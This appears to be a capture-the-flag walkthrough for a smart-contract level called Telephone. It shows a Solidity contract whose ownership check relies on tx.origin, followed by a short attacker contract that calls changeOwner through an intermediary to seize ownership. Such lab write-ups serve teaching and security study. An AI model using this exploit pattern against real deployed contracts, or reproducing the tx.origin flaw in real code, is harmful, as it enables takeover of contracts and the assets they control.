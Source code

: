 # Task

Claim ownership of the contract below to complete this level.

# Contract

```sol
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {
    address public owner;

    constructor() {
        owner = msg.sender;
    }

    function changeOwner(address _owner) public {
        if (tx.origin != msg.sender) {
            owner = _owner;
        }
    }
}
```

Lets get the contract address and contract abi

![image](https://github.com/user-attachments/assets/c1fe8f04-847f-4879-8277-ad1196e20e8d)

First, lets check the owner of this contract

![image](https://github.com/user-attachments/assets/bf95721a-fc87-400a-9d1a-ed3cce80fe07)

That's the current owner of the contract

Below is the solve contract

```sol
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.19;

import "./telephone.sol";

contract TelephoneHack {
    Telephone telecontract;

    constructor(address _address) {
        telecontract = Telephone(_address);
    }

    function hackContract(address _address) public{ 
        telecontract.changeOwner(_address);
    }
    
}
```
Lets deploy this using forge

![image](https://github.com/user-attachments/assets/1a28c0f3-036d-4412-ae4d-fcb43f5121ba)

Since ownership can be transferred if `tx.origin != msg.sender` we can call the `hackContract` function and pass in our address


![image](https://github.com/user-attachments/assets/94f13cec-4814-49dd-a905-0cf83deb3009)











































